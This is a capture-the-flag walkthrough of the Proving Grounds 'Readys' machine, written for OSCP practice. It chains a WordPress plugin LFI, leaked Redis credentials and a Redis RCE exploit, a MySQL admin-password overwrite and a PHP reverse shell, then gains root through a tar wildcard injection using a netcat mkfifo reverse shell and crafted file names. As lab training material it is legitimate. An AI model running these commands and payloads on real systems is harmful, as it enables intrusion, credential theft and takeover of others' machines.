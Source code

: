 ```yaml
---
title: Readys Walkthrough - Proving grounds
tags: Redis Wildcard WordPress
categories: Linux
---
```

In this entry I will solve PG's Readys machine. It is an Linux machine in the [TJNull](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview) list. My purpose in sharing this post is to prepare for OSCP exam. It is also to show you the way if you are in trouble. Please try to understand each step and take notes.

# Port and service enum

`nmap -sC -sV -p22,80,6379 192.168.223.166 -Pn -o targeted.txt`

![c5391e4051b28caa4a2edecf56afeb50.png](/assets/img/screenshots/Readys/c5391e4051b28caa4a2edecf56afeb50.png)

By visiting http[:]//192.168.223.166/ I find wordpress running so I run wpscan.

## Wordpress enumeration

`wpscan -e --url http[:]//192.168.223.166/`

![6b16ef438cdc9c202a84aab24c57591c.png](/assets/img/screenshots/Readys/6b16ef438cdc9c202a84aab24c57591c.png)

The website discloses the admin user. I try to bruteforce the user runing wpscan

`wpscan -e --url http[:]//192.168.223.166/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt`

## Redis enumeration

While the attack is running I check redis, I try to connect and get some info but authentication is required

`redis-cli -h 192.168.223.166`

![eae720747869812f3e7085d2ea0789d1.png](/assets/img/screenshots/Readys/eae720747869812f3e7085d2ea0789d1.png)

## Back to WP

Going back to the WordPress site, inspecting the source code I find SiteEditor plugin.

![6076885f10b4dcfbd3a4a4fa8223dc2f.png](/assets/img/screenshots/Readys/6076885f10b4dcfbd3a4a4fa8223dc2f.png)

I google for any exploit and I find a possible LFI https://www.exploit-db.com/exploits/44340

`[http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax\_shortcode\_pattern.php?ajax_path=/etc/passwd](http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax%5C_shortcode%5C_pattern.php?ajax_path=/etc/passwd)`

![768b40cdbb003c2ea7b4e4fdace55e0e.png](/assets/img/screenshots/Readys/768b40cdbb003c2ea7b4e4fdace55e0e.png)

## Back to redis

As redis is running, I try to read redis configuration file, under /etc/redis https://stackoverflow.com/questions/32284494/where-is-the-data-directory-in-redis.

`[http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax\_shortcode\_pattern.php?ajax_path=/etc/redis/redis.conf ](http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax%5C_shortcode%5C_pattern.php?ajax_path=/etc/redis/redis.conf )`


I find a possible username for Redis service

![d744357582946f7c99ae541cf13d1163.png](/assets/img/screenshots/Readys/d744357582946f7c99ae541cf13d1163.png)

By typing `AUTH Ready4Redis?` I  get the Redis version: 5.0.14.

![532c82325e1499468947b4b2d704e4bd.png](/assets/img/screenshots/Readys/532c82325e1499468947b4b2d704e4bd.png)

# Getting a shell

After googling for the version  I came out that this version is vulnerable to RCE . In this case I use the following [exploit](https://github.com/n0b0dyCN/redis-rogue-server). If fails try again :)

![7c570a5c9b43f3201629238e63a2bbf6.png](/assets/img/screenshots/Readys/7c570a5c9b43f3201629238e63a2bbf6.png)

I get a TTY through `python3 -c "import pty; pty.spawn('/bin/bash')".` After that I search for the mysql database credentials in `/var/www/html/wp-config.php`

![63258e92a72d7fe42dd95cb11f310676.png](/assets/img/screenshots/Readys/63258e92a72d7fe42dd95cb11f310676.png)

# MySQL

I connect to mysql and then I dump admin's credentials:

`mysql -u karl -p` Then paste the password found on wp-config.php

`show databases;`

`use wordpress;`

`select * from wp_users;`

![569b714daa20fc604f40c8e724b95821.png](/assets/img/screenshots/Readys/569b714daa20fc604f40c8e724b95821.png)
I try to crack the hash but I do not get any result, so I update admin's password in mysql databse, for that I use [wodpress hash generator](https://www.useotools.com/wordpress-password-hash-generator/.) tool

![bf64b842a1784c3b54a9d96863a1e8a9.png](/assets/img/screenshots/Readys/bf64b842a1784c3b54a9d96863a1e8a9.png)

By typing the desired password, the tool creates the mysql command to update the user's password. **Remember to rename your_user_name by 'admin' and add ";" **

``UPDATE `wp_users` SET `user_pass` = '``$P$`BxLKwoTitAjOYxf8iHcDrx0Z3ksN8v/' WHERE user_login = 'admin';`

![8228a5ec0cb9527c65914d3086843920.png](/assets/img/screenshots/Readys/8228a5ec0cb9527c65914d3086843920.png)

# WordPress Exploitation

After that I log in to the WordPress admin portal, with admin:admin

Go to Appearance -->Theme editor. (I am using twentytwenty template)

![4748cfa6680b70d337cf2ec9c3839b69.png](/assets/img/screenshots/Readys/4748cfa6680b70d337cf2ec9c3839b69.png)

Edit 404.php file and copy [pentestmonkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) or generate one with msfvenom:

msfvenom -p php/reverse_php LHOST=192.168.45.159 LPORT=88 -f raw > reverse.php

Then trigger the exploit by visiting `[http[:]//192.168.223.166/wp-content/themes/twentytwenty/404.php](http[:]//192.168.223.166/wp-content/themes/twentytwenty/404.php)`

# Privilege Escalation

After getting the shell I check crontab and a backup.sh file is running.

![6d43ef534744f360c62594fb2eb4963b.png](/assets/img/screenshots/Readys/6d43ef534744f360c62594fb2eb4963b.png)

Reading the backup file is seems that the script uses "tar" command

![f38f9eb8b8230c5bc6e76be24955b121.png](/assets/img/screenshots/Readys/f38f9eb8b8230c5bc6e76be24955b121.png)

### Wildcard for Privilege Escalation

The tar command in that script is using a wildcard to backup all files

First, I will create a reverse shell called "shell.sh" using netcat

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 10.10.10.10 4445 >/tmp/f" > shell.sh`

The following commands will create two empty files with the names: “–checkpoint-action=exec=sh shell.sh” and “–checkpoint=1”. These file names will be interpreted by Tar as switches when Tar attempts to bundle them. Once –checkpoint=1 is invoked tar will look for any possible actions to take. In this case that action will be to execute “sh shell.sh”.

`echo "" > "--checkpoint-action=exec=sh shell.sh"`

`echo "" > --checkpoint=1`

Finally, a netcat listener is created on the Kali machine on port 4445. Since the cronjob on the victim machine runs every two minutes the netcat listener will receive a connection within that amount of time and then spawn a shell as the root user.

Wait to the crontab and get the shell as root

![ef8bce19d64b5cc79ead44d0d007ed59.png](/assets/img/screenshots/Readys/ef8bce19d64b5cc79ead44d0d007ed59.png)

Pwn3d! :D
